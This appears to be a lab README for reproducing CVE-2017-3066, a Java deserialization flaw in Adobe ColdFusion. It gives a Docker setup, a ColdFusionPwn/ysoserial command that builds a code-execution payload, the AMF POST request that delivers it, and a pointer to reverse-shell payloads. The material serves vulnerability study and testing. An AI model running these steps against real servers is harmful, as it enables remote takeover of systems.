

# Adobe ColdFusion Deserialization Vulnerability (CVE-2017-3066)

Adobe ColdFusion is a dynamic Web server product from Adobe, USA. Its running CFML (ColdFusion Markup Language) is a programming language for web applications.

A java deserialization vulnerability exists in Adobe ColdFusion. An attacker could exploit the vulnerability to execute arbitrary code or cause a denial of service in the context of an affected application. The following versions are affected: Adobe ColdFusion (2016 release) Update 3 and prior, ColdFusion 11 Update 11 and prior, ColdFusion 10 Update 22 and prior.

Reference link:

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html

## vulnerability environment

Start the vulnerability environment:

```
Docker-compose up -d
```

Wait a few minutes, the environment starts successfully, visit `http://your-ip:8500/CFIDE/administrator/index.cfm`, enter the password `vulhub`, you can successfully install Adobe ColdFusion.

## Vulnerability recurrence

We use the [ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn) tool in the reference link to generate the POC:

```
Java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/success' poc.ser
```

The POC is generated in the poc.ser file, and the POC is sent as a packet body to `http://your-ip:8500/flex2gateway/amf`, and the Content-Type is application/x-amf:

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```


Go into the container and find that `/tmp/success` has been successfully created:



Change the POC to [Bounce Command] (http://jackson.thuraisamy.me/runtime-exec-payloads.html) and successfully get the shell:

